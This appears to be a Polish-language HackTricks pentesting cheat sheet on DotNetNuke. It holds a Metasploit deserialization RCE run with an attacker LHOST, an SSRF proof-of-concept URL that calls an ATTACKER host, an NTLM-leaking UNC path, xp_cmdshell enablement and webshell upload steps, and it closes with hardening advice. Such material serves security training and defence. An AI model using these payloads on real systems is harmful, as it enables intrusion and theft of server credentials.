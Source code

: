 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Jeśli zalogujesz się jako **administrator** w DNN, łatwo uzyskać **RCE**, jednak w ciągu ostatnich kilku lat opublikowano szereg technik *nieautoryzowanych* i *po autoryzacji*. Poniższa ściągawka zbiera najbardziej przydatne prymitywy zarówno do pracy ofensywnej, jak i defensywnej.

---
## Wersja i enumeracja środowiska

* Sprawdź nagłówek odpowiedzi HTTP *X-DNN* – zazwyczaj ujawnia dokładną wersję platformy.
* Kreator instalacji ujawnia wersję w `/Install/Install.aspx?mode=install` (dostępne w bardzo starych instalacjach).
* `/API/PersonaBar/GetStatus` (9.x) zwraca blob JSON zawierający `"dnnVersion"` dla użytkowników o niskich uprawnieniach.
* Typowe ciasteczka, które zobaczysz na działającej instancji:
* `.DOTNETNUKE` – bilet uwierzytelniania formularzy ASP.NET.
* `DNNPersonalization` – zawiera dane profilu użytkownika w formacie XML/serializowanym (stare wersje – patrz RCE poniżej).

---
## Wykorzystanie bez autoryzacji

### 1. Deserializacja ciasteczek RCE  (CVE-2017-9822 i kontynuacje)
*Wersje dotknięte ≤ 9.3.0-RC*

`DNNPersonalization` jest deserializowane przy każdym żądaniu, gdy wbudowany handler 404 jest włączony. Opracowane XML może zatem prowadzić do dowolnych łańcuchów gadżetów i wykonania kodu.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Moduł automatycznie wybiera odpowiednią ścieżkę dla załatanych, ale wciąż podatnych wersji (CVE-2018-15811/15812/18325/18326). Wykorzystanie działa **bez uwierzytelnienia** w wersjach 7.x–9.1.x oraz z *zweryfikowanym* kontem o niskich uprawnieniach w wersjach 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Wersje dotknięte < 9.13.8  –  Łatka wydana w kwietniu 2025*

Ominięcie starszej poprawki `DnnImageHandler` umożliwia atakującemu zmuszenie serwera do wydawania **dowolnych żądań GET** (pół-ślepy SSRF). Praktyczne skutki:

* Wewnętrzne skanowanie portów / odkrywanie usług metadanych w wdrożeniach w chmurze.
* Uzyskanie dostępu do hostów, które są inaczej chronione przed Internetem.

Dowód koncepcji (zastąp `TARGET` i `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Żądanie jest wyzwalane w tle; monitoruj swój nasłuchiwacz w poszukiwaniu wywołań zwrotnych.

### 3. Ekspozycja hasha NTLM za pomocą przekierowania UNC  (CVE-2025-52488)
*Dotknięte wersje 6.0.0 – 9.x (< 10.0.1)*

Specjalnie przygotowana treść może spowodować, że DNN spróbuje pobrać zasób za pomocą **ścieżki UNC** takiej jak `\\attacker\share\img.png`.  Windows chętnie przeprowadzi negocjację NTLM, ujawniając hashe konta serwera atakującemu.  Zaktualizuj do **10.0.1** lub wyłącz wychodzący SMB w zaporze.

### 4. Ominięcie filtra IP  (CVE-2025-52487)
Jeśli administratorzy polegają na *Filtrach Host/IP* w celu ochrony portalu administracyjnego, należy pamiętać, że wersje przed **10.0.1** mogą być ominięte poprzez manipulację `X-Forwarded-For` w scenariuszu odwrotnego proxy.

---
## Post-autoryzacja do RCE

### Poprzez konsolę SQL
W **`Ustawienia → SQL`** wbudowane okno zapytań pozwala na wykonanie zapytań przeciwko bazie danych witryny.  Na Microsoft SQL Server możesz włączyć **`xp_cmdshell`** i uruchomić polecenia:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via ASPX webshell upload
1. Przejdź do **`Settings → Security → More → More Security Settings`**.
2. Dodaj `aspx` (lub `asp`) do **Allowable File Extensions** i **Zapisz**.
3. Przejdź do **`/admin/file-management`** i załaduj `shell.aspx`.
4. Uruchom go pod **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation on Windows
Gdy uzyskasz wykonanie kodu jako **IIS AppPool\<Site>**, stosuje się powszechne techniki eskalacji uprawnień w systemie Windows. Jeśli system jest podatny, możesz wykorzystać:

* **PrintSpoofer** / **SpoolFool** do nadużycia *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** do ucieczki z *Service Accounts*.

---
## Hardening Recommendations (Blue Team)

* **Upgrade** do co najmniej **9.13.9** (naprawia obejście SSRF) lub najlepiej **10.0.1** (problemy z filtrowaniem IP i NTLM).
* Usuń pozostałe pliki **`InstallWizard.aspx*`** po instalacji.
* Wyłącz wychodzący SMB (porty 445/139).
* Wymuś silne *Host Filters* na krawędzi proxy zamiast w DNN.
* Zablokuj dostęp do `/API/RemoteContentProxy`, jeśli nie jest używane.

## References

* Metasploit `dnn_cookie_deserialization_rce` module documentation – practical unauthenticated RCE details (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & patch information.
{{#include ../../banners/hacktricks-training.md}}

